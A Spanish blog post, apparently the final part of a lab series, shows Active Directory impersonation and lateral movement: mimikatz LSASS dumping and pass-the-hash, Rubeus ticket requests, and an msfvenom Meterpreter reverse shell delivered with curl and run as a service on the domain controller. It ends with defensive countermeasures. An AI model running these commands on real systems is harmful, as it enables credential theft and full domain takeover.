Llegamos al **final del camino**. En la [Parte 1](/posts/pentesting-ad-01-environment-setup/) montamos desde cero el laboratorio de Active Directory —el dominio **CAPSULE.CORP**, su controlador DC01, el equipo cliente y las configuraciones vulnerables—, y en la [Parte 2](/posts/pentesting-ad-02-enumeration-attacks/) lo enumeramos con PowerView y obtuvimos credenciales mediante AS-REP Roasting y Kerberoasting. Esta tercera entrega **cierra la serie**: vamos a convertir el acceso que ya tenemos en control total del dominio.

En este post **suplantaremos la identidad del usuario Carolina** —que, recordemos, es *Domain Admin*— empleando herramientas como *runas*, *mimikatz* o *Rubeus*. Posteriormente usaremos esa cuenta para realizar un **movimiento lateral** que nos permita obtener el control del controlador de dominio. Finalmente, volveremos a explicar con más detenimiento en qué consiste el ataque **Kerberoast** y reflexionaremos sobre por qué no es una vulnerabilidad como tal de un entorno de Active Directory.

> Como en las entregas anteriores, todo se realiza sobre un laboratorio propio y aislado. Reproducir estas técnicas contra sistemas de terceros sin autorización explícita es ilegal. El propósito es exclusivamente educativo y defensivo.
{: .prompt-warning }

## Suplantación de usuarios

Para realizar la suplantación nos conectaremos, a través de la máquina Windows 10 Enterprise, al equipo **Cliente** mediante las credenciales del usuario Pepe. Una vez dentro, crearemos un proceso `cmd.exe` con el comando `runas` que suplante la identidad de Carolina.


_Imagen 1. Inicio de sesión con Pepe en la máquina Cliente._


_Imagen 2. Intento de acceso al controlador de dominio con Pepe._

Como se puede observar en la siguiente imagen, el usuario Pepe no tiene permisos para listar la raíz del controlador de dominio, ya que no es *Domain Admin*.


_Imagen 3. Acceso denegado al controlador de dominio para Pepe._

En cambio, el usuario Carolina sí es *Domain Admin*, tal y como se vio en anteriores entregas del blog, por lo que sí podrá acceder a dicho recurso.

### Suplantación a través de contraseña

Para poder crear el proceso `cmd.exe` como Carolina se utilizan las siguientes opciones de `runas`:

- **runas**: comando que permite ejecutar un proceso dentro de una sesión como si fueras otro usuario distinto.
- **/netonly**: opción que indica que las credenciales introducidas son para acceso remoto y, por tanto, no local. Esta opción implica que Windows no validará las credenciales, ya que son remotas y no tienen por qué existir en local.
- **/user**: especifica el usuario remoto con el que se ejecutará el comando, en este caso Carolina del dominio CAPSULE.CORP.
- **cmd.exe**: indica el proceso a ejecutar.

```text
runas /netonly /user:CAPSULE.CORP\Carolina cmd.exe
```


_Imagen 4. Comando runas con credenciales para Carolina._

Una vez iniciado el proceso, se puede comprobar en la siguiente imagen cómo ahora sí se puede acceder al controlador de dominio desde la máquina Cliente, habiendo iniciado sesión con Pepe (que no tiene permisos) y a través del comando `runas` anterior.


_Imagen 5. Acceso al controlador de dominio con Carolina a través de runas._

No obstante, para poder llevar a cabo este método es necesario conocer la contraseña del usuario que se quiere suplantar, para lo cual habrá que emplear otro tipo de técnicas. En este caso en particular, la contraseña de Carolina se encontraba en su atributo de *Descripción*, el cual puede ser leído por todos.

### Suplantación a través de hash NTLM

En caso de no contar con la contraseña del usuario, también se puede realizar el proceso anterior con un **hash NTLM**. Para realizar esta suplantación se utilizará la herramienta *mimikatz*.

Quizá no se cuente con la contraseña del usuario objetivo; sin embargo, es posible que este haya podido iniciar sesión en nuestro equipo por RDP o por cualquier circunstancia "necesaria" —por ejemplo, un administrador que necesita conectarse al equipo de algún usuario para arreglar algo—. Si este es el caso y el inicio de sesión ha sido reciente, las contraseñas habrán sido guardadas por el proceso **LSASS**, por lo que con mimikatz se podrán obtener los distintos hashes de memoria utilizando los siguientes comandos:

```text
mimikatz # sekurlsa::logonpasswords
```


_Imagen 6. Comando mimikatz para dump de LSASS._

Con dicho hash ejecutamos el siguiente comando de mimikatz, estableciendo el NTLM, para obtener el proceso `cmd.exe` como Carolina:

```text
mimikatz # sekurlsa::pth /user:Carolina /domain:DC01 /ntlm:bd35111ab3b0d46129efbdbab06b49c4 /run:cmd
```


_Imagen 7. Comando mimikatz para pass-the-hash con Carolina._


_Imagen 8. Inicio de sesión cmd suplantando a Carolina con mimikatz._


_Imagen 9. Comprobación de acceso al controlador de dominio._

### Obtención de ticket TGT para suplantar a Carolina

En esta última técnica de suplantación se creará una sesión con un usuario falso a través del comando `runas` que se comentó en el apartado de [Suplantación a través de contraseña](#suplantación-a-través-de-contraseña), con el objetivo de evitar problemas con los tickets y la caché.

```text
runas /netonly /user:aleatorio\aleatorio cmd.exe
```


_Imagen 10. Comando runas con usuario falso._

Y una vez en la sesión `cmd` se utiliza *Rubeus* para obtener la clave derivada de la contraseña de Carolina, que será necesaria para solicitar el ticket TGT:

```text
Rubeus.exe hash /domain:CAPSULE.CORP /user:Carolina /password:Patatas123
```


_Imagen 11. Obtención de la clave a partir de la contraseña mediante Rubeus._

Una vez obtenida la clave se ejecuta:

```text
Rubeus.exe asktgt /domain:CAPSULE.CORP /user:Carolina /enctype:AES /aes256:<hash> /nowrap /ptt
```

Con dicho comando se obtiene el ticket TGT para Carolina. Para importarlo en la sesión actual se utiliza:

```text
Rubeus.exe ptt /ticket:<base64ticket>
```

De esta manera se puede acceder al controlador de dominio como administrador, ya que Carolina es *Domain Admin*.

## Movimiento lateral

En este apartado partiremos del caso anterior, en concreto de la suplantación de identidad de Carolina a través de su contraseña mediante el comando `runas`, con el objetivo de realizar un movimiento lateral al controlador de dominio y obtener ejecución arbitraria de comandos en dicho sistema.

Para llevar a cabo este movimiento lateral se aprovechará la condición de *Domain Admin* de Carolina (comprobado con la ejecución del comando `dir \\dc01.capsule.corp\C$`) para subir un ejecutable de Meterpreter a DC01 y dar acceso remoto a dicho binario mediante la creación de un servicio.

Lo primero, por tanto, es la creación del binario desde la máquina atacante haciendo uso de *msfvenom* con la siguiente configuración:

- **-p**: indica el *payload* a compilar, en este caso una *reverse shell* a través de TCP para un Windows de 64 bits.
  - **LHOST**: opción de configuración del *payload* que establece la IP local del atacante a la que se conectará Meterpreter.
  - **LPORT**: opción de configuración del *payload* que establece el puerto local del atacante al que se conectará Meterpreter.
- **-f**: tipo de fichero de salida, en este caso un ejecutable `.exe`.
- **-o**: nombre del fichero ejecutable de salida.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o meter-x64.exe
```


_Imagen 12. Creación del payload de Meterpreter con msfvenom._

Para mover el ejecutable a la máquina destino se establece un servicio HTTP que haga disponible el binario a través de un *directory listing*:

```bash
python3 -m http.server 80
```


_Imagen 13. Servicio HTTP para servir Meterpreter._

Y en el destino se descarga dicho fichero mediante una petición GET con `curl`:

```text
curl http://10.0.2.9/meter-x64.exe --output meter-x64.exe
```


_Imagen 14. Descarga del binario de Meterpreter con curl en el destino._

En un escenario más realista esta transmisión ocurriría de alguna manera más elaborada y sigilosa —por ejemplo, a través de esteganografía o de algún servicio benigno—, pero para el propósito de este laboratorio se considera suficiente.

Mientras tanto, en la máquina atacante se configura un *exploit* de Metasploit de tipo `multi/handler` y el mismo *payload* que se configuró para Meterpreter, con la misma configuración, tal y como muestra la siguiente imagen.


_Imagen 15. Configuración de Meterpreter en Metasploit._

A continuación se ejecuta en segundo plano con `run -j` para que el puerto quede a la escucha de alguna conexión.

Para llevar a cabo el ataque, en la máquina víctima se suplanta la identidad de Carolina haciendo uso del primer método comentado (`runas` + credenciales) y, una vez creado el proceso `cmd.exe` como Carolina, se copia el binario de Meterpreter al controlador de dominio:

```text
copy meter-x64.exe \\dc01.capsule.corp\C$\meter-x64.exe
```


_Imagen 16. Copia de Meterpreter en el controlador de dominio._

Una vez entregado el ejecutable, se crea y ejecuta con `sc.exe` un servicio en **DC01** llamado *Meter* que disponga el fichero de Meterpreter:

```text
sc.exe \\dc01 create Meter binpath=C:\meter-x64.exe
sc.exe \\dc01 start Meter
```


_Imagen 17. Creación y ejecución del servicio de Meterpreter en DC01._

Tras ser desplegado el servicio, en la máquina atacante se nos notifica de una nueva conexión desde la IP del controlador de dominio y, con el comando `sessions`, se puede comprobar que se tiene una conexión como `NT AUTHORITY` hacia el **DC01**.


_Imagen 18. Sesión de Meterpreter hacia DC01._

Si entramos en la sesión 4 se nos abre la consola de Meterpreter, con la que podemos interactuar con la víctima y realizar todo tipo de acciones con absoluto control sobre el sistema y el dominio como, por ejemplo, realizar un volcado de los hashes.


_Imagen 19. Volcado de hashes con Meterpreter._

De esta manera se puede obtener el hash de la cuenta `krbtgt`, con el cual se podrían emitir *Golden Tickets*, aunque eso lo veremos en futuras entregas del blog.

## Unas palabaras sobre Kerberoast

El ataque *Kerberoast* se aprovecha del funcionamiento del protocolo Kerberos para obtener hashes de las contraseñas de cuentas de servicio a través de peticiones TGS-REQ, para intentar «*crackearlas*» *offline*.

Cuando un usuario quiere solicitar un servicio, realiza una petición TGS-REQ al KDC con el nombre del servicio que quiere (el SPN), su clave de sesión y su TGT. Es decir, para realizar esta petición se necesita un usuario autenticado con su TGT correspondiente y el identificador del servicio o SPN (*Service Principal Name*).

Una vez se verifica que la petición es correcta y el usuario está autenticado, el KDC devuelve un TGS-REP en el que se incluyen, entre otras cosas, el *service ticket* (ST) cifrado con el hash de la contraseña del propietario del servicio, para que así el usuario pueda consumir dicho servicio y el servicio, a su vez, verifique que el usuario puede acceder al mismo.

Lo interesante de este proceso es que cualquier usuario de dominio autenticado puede solicitar tantos ST para tantos servicios como quiera sin ningún tipo de limitación, incluso si no se tiene acceso a dicho servicio. Mientras se conozca el SPN, se pueden solicitar ST.

Por tanto, con las credenciales de un usuario se puede realizar un TGS-REQ y obtener un TGS-REP con el ST cifrado con el hash de la contraseña del servicio e intentar «*crackear*» el hash de la contraseña *offline*.

La razón de que este ataque no se considere una vulnerabilidad es que realmente es una funcionalidad vital en un entorno de directorio activo. Es decir, cualquier objeto que quiera ofrecer un servicio necesita de un SPN para identificar de manera unívoca dicho servicio y que otros usuarios lo puedan encontrar y solicitar. Además, en el mensaje TGS-REP el servicio necesita verificar el ST para comprobar que es válido y que el usuario tiene acceso, para lo que se requiere que esté firmado con la contraseña del servicio. Por ello, todo depende al final de la fortaleza de la contraseña y de la política de contraseñas de la empresa.

## Conclusión

Con esta entrega hemos completado la cadena de ataque de principio a fin. Partiendo de un simple usuario de dominio, hemos **suplantado la identidad** de una cuenta *Domain Admin* (Carolina) por tres vías distintas —con su contraseña mediante `runas`, con su hash NTLM mediante *mimikatz* (Pass-the-Hash) y solicitando su ticket TGT con *Rubeus* (Pass-the-Ticket)—, hemos realizado un **movimiento lateral** hasta el controlador de dominio desplegando un *payload* de Meterpreter a través de un servicio, y hemos terminado con una sesión como `NT AUTHORITY\SYSTEM` sobre DC01 y un volcado de hashes que incluye la cuenta `krbtgt`: las llaves del reino.

### Lecciones y aprendizajes

- **Una sola credencial privilegiada compromete todo el dominio.** El salto de "usuario sin permisos" a "control total del DC" dependió por completo de obtener las credenciales de una cuenta *Domain Admin*. Proteger y limitar esas cuentas es la prioridad absoluta.
- **El hash es tan valioso como la contraseña.** Pass-the-Hash y Pass-the-Ticket demuestran que, con Kerberos y NTLM, no siempre hace falta conocer la contraseña en claro: basta con el material de autenticación que queda en memoria.
- **LSASS es un objetivo crítico.** Gran parte del ataque se apoya en volcar credenciales de memoria. Protegerlo (Credential Guard, LSA Protection) y minimizar las sesiones privilegiadas en equipos de usuario reduce drásticamente la superficie de ataque.
- **Kerberoasting no es un fallo, es una funcionalidad.** Como vimos, es inherente al diseño de Kerberos; la defensa real pasa por contraseñas de servicio largas y aleatorias (idealmente gMSA) y por la monitorización.
- **El hash de `krbtgt` es el peor escenario posible.** Permite forjar *Golden Tickets* y mantener persistencia prácticamente indefinida en el dominio; su compromiso obliga a una rotación doble de la cuenta y a asumir que todo el dominio ha caído.

Como contramedidas prácticas: aplicar el **principio de mínimo privilegio** y el modelo de niveles (*tiering*) para las cuentas administrativas, habilitar **Credential Guard** y **LSA Protection**, restringir el uso de cuentas privilegiadas a equipos de administración dedicados, usar **cuentas gestionadas (gMSA)** para los servicios, **monitorizar** la creación remota de servicios y las peticiones Kerberos anómalas, y disponer de un plan de respuesta ante el compromiso de `krbtgt`.

### Palabras finales de la serie

Y hasta aquí esta serie sobre pentesting en Active Directory. Hemos recorrido el ciclo completo: **construir** un laboratorio realista ([Parte 1](/posts/pentesting-ad-01-environment-setup/)), **enumerarlo y vulnerar sus credenciales** ([Parte 2](/posts/pentesting-ad-02-enumeration-attacks/)) y, finalmente, **suplantar identidades y tomar el control del dominio** ([Parte 3](/posts/pentesting-ad-03-lateral-movement-impersonation/)). Mi intención con estos tres posts ha sido doble: por un lado, mostrar paso a paso cómo piensa y opera un atacante en un entorno Windows corporativo; por otro —y más importante—, dejar claro que casi ninguna de estas técnicas explota un fallo del software: explotan **malas configuraciones y contraseñas débiles**. Entender el ataque es, al final, la mejor forma de aprender a defender.

Gracias por acompañarme hasta el final de la serie. Si te ha resultado útil o tienes dudas, sugerencias o ideas para futuros laboratorios, no dudes en contactarme. ¡Nos vemos en el próximo proyecto!

## Enlaces a las otras partes
- [Parte 1 - Creación del entorno](/posts/pentesting-ad-01-environment-setup/)
- [Parte 2 - Enumeración y ataques (AS-REP Roasting y Kerberoasting)](/posts/pentesting-ad-02-enumeration-attacks/)
- [Parte 3 - Movimiento lateral y suplantación de identidad](/posts/pentesting-ad-03-lateral-movement-impersonation/)